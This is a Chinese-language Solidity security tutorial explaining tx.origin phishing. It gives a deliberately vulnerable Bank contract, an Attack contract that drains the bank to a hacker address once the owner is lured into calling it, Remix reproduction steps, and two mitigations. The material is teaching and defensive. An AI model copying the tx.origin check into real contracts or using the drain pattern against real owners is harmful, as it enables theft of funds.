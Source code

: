 ```yaml
---
title: S12. tx.origin钓鱼攻击
tags:
  - solidity
  - security
  - tx.origin
---
```


# WTF Solidity 合约安全: S12. tx.origin钓鱼攻击

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍智能合约的`tx.origin`钓鱼攻击和预防方法。

## `tx.origin`钓鱼攻击

笔者上初中的时候特别喜欢玩游戏，但是项目方为了防止未成年人沉迷，规定只有身份证号显示已满十八岁的玩家才不受防沉迷限制。这该怎么办呢？后来笔者使用家长的身份证号进行年龄验证，并成功绕过了防沉迷系统。这个案例与`tx.origin`钓鱼攻击有着异曲同工之妙。

在`solidity`中，使用`tx.origin`可以获得启动交易的原始地址，它与`msg.sender`十分相似，下面我们用一个例子来区分它们之间不同的地方。

如果用户A调用了B合约，再通过B合约调用了C合约，那么在C合约看来，`msg.sender`就是B合约，而`tx.origin`就是用户A。如果你不了解`call`的机制，可以阅读[WTF Solidity极简教程第22讲：Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md)。

![](./img/S15_1.jpg)

因此如果一个银行合约使用了`tx.origin`做身份认证，那么黑客就有可能先部署一个攻击合约，然后再诱导银行合约的拥有者调用，即使`msg.sender`是攻击合约地址，但`tx.origin`是银行合约拥有者地址，那么转账就有可能成功。

## 漏洞合约例子

### 银行合约

我们先看银行合约，它非常简单，包含一个`owner`状态变量用于记录合约的拥有者，包含一个构造函数和一个`public`函数：

- 构造函数: 在创建合约时给`owner`变量赋值.
- `transfer()`: 该函数会获得两个参数`_to`和`_amount`，先检查`tx.origin == owner`，无误后再给`_to`转账`_amount`数量的ETH。**注意：这个函数有被钓鱼攻击的风险！**

```solidity
contract Bank {
    address public owner;//记录合约的拥有者

    //在创建合约时给 owner 变量赋值
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //检查消息来源 ！！！ 可能owner会被诱导调用该函数，有钓鱼风险！
        require(tx.origin == owner, "Not owner");
        //转账ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 攻击合约

然后是攻击合约，它的攻击逻辑非常简单，就是构造出一个`attack()`函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有`2`个状态变量`hacker`和`bank`，分别用来记录黑客地址和要攻击的银行合约地址。

它包含`2`个函数：

- 构造函数:初始化`bank`合约地址.
- `attack()`：攻击函数，该函数需要银行合约的`owner`地址调用，`owner`调用攻击合约，攻击合约再调用银行合约的`transfer()`函数，确认`tx.origin == owner`后，将银行合约内的余额全部转移到黑客地址中。

```solidity
contract Attack {
    // 受益者地址
    address payable public hacker;
    // Bank合约地址
    Bank bank;

    constructor(Bank _bank) {
        //强制将address类型的_bank转换为Bank类型
        bank = Bank(_bank);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导bank合约的owner调用，于是bank合约内的余额就全部转移到黑客地址中
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## `Remix` 复现

**1.** 先将`value`设置为10ETH，再部署 `Bank` 合约，拥有者地址 `owner` 被初始化为部署合约地址。

![](./img/S15-2.jpg)

**2.** 切换到另一个钱包作为黑客钱包，填入要攻击的银行合约地址，再部署 `Attack` 合约，黑客地址 `hacker` 被初始化为部署合约地址。

![](./img/S15-3.jpg)

**3.** 切换回`owner`地址，此时我们被诱导调用了`Attack`合约的`attack()`函数，可以看到`Bank`合约余额被掏空了，同时黑客地址多了10ETH.

![](./img/S15-4.jpg)

## 预防办法

目前主要有两种办法来预防可能的`tx.origin`钓鱼攻击。

### 1.使用`msg.sender`代替`tx.origin`

`msg.sender`能够获取直接调用当前合约的调用发送者地址，通过对`msg.sender`的检验，就可以避免整个调用过程中混入外部攻击合约对当前合约的调用

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2.检验`tx.origin == msg.sender`

如果一定要使用`tx.origin`，那么可以再检验`tx.origin`是否等于`msg.sender`，这样也可以避免整个调用过程中混入外部攻击合约对当前合约的调用。但是副作用是其他合约将不能调用这个函数。

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## 总结

这一讲，我们介绍了智能合约中的`tx.origin`钓鱼攻击，目前有两种方法可以预防它：一种是使用`msg.sender`代替`tx.origin`；另一种是同时检验`tx.origin == msg.sender`。推荐使用第一种方法预防，因为后者会拒绝所有来自其他合约的调用。
